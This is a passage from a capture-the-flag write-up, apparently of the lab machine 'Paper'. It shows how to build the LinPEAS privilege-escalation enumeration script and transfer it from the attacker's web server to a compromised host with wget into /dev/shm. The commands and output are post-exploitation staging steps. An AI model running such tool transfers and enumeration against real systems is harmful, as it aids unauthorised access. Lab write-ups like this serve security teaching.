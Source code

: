 ### LinPEAS

In general, I like to enumeration manually before breaking out enumeration scripts because it provides good practice of knowing the things to look for. That said, on this one, after a looking around on my own, I didn’t see much of interest.

#### Build

I could grab the latest release from the [releases page](https://github.com/carlospolop/PEASS-ng/releases), but there’s also a builder I can use. I’ll clone the repo onto my computer (`git clone https://github.com/carlospolop/PEASS-ng`), and then go into the `PEASS-ng/linPEAS` directory.

```

oxdf@hacky$ ls
builder  images  README.md

```

From there, I’ll call the builder script with `python3 -m builder.linpeas_builder`. This is going to run `linpeas_builder` from the `builder` directory, which builds a `.sh` script:

```

oxdf@hacky$ python -m builder.linpeas_builder
[+] Building temporary linpeas_base.sh...
[+] Building variables...
[+] Building finds...
[+] Building storages...
[+] Checking duplicates...
[+] Building autocheck sections...
[+] Building regexes searches...
[+] Building linux exploit suggesters...
[+] Building GTFOBins lists...
[+] Final sanity checks...
oxdf@hacky$ 
oxdf@hacky$ ls
builder  images  linpeas.sh  README.md

```

I’ll start a webserver (`python3 -m http.server 80`) in that directory, and then fetch it from Paper with `wget` (working out of `/dev/shm` as a temp directory):

```

[dwight@paper shm]$ wget 10.10.14.6/linpeas.sh
--2022-06-05 14:16:30--  http://10.10.14.6/linpeas.sh
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776776 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                           100%[=================================>] 758.57K  1.17MB/s    in 0.6s    

2022-06-05 14:16:31 (1.17 MB/s) - ‘linpeas.sh’ saved [776776/776776]

```
